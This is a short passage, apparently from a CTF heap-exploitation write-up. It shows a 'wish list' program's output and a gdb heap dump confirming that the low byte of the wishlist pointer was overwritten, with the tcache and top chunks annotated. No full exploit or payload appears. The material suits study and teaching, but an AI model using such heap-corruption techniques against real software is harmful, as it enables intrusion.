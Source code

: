 ```

[+] cccccccccccccccc's Wish List

------------------------

 No. 5983606249452696417

  Item. incerely,





 No. 7161677110969590627

  Item. cccccccc

 No. 4300992

  Item. 1

 No. 7016996765293437281

  Item. aaaaaaaa

 No. 1

  Item. aaaaaaaaaaaaaaaaaaaaaaaa

 No. 2

  Item. bbbbbbbbbbbbbbbbbbbbbbbb

```

We might have overwrite the LSB of the begin pointer of the `wishlist`, and gdb confirms it:

```
0x41a020	0x6363636363636363	0x6363636363636363	cccccccccccccccc

0x41a030	0x000000000041a000	0x000000000041a0c0	..A.......A.....

0x41a040	0x000000000041a0c0	0x0000000000000031	..A.....1.......

0x41a050	0x0000000000000000	0x0000000000408010	..........@.....	 <-- tcachebins[0x30][0/1]

0x41a060	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa

0x41a070	0x0000000000000000	0x0000000000000051	........Q.......

0x41a080	0x0000000000000001	0x6161616161616161	........aaaaaaaa

0x41a090	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa

0x41a0a0	0x0000000000000002	0x6262626262626262	........bbbbbbbb

0x41a0b0	0x6262626262626262	0x6262626262626262	bbbbbbbbbbbbbbbb

0x41a0c0	0x0000000000000000	0x000000000000ef41	........A.......	 <-- Top chunk
```
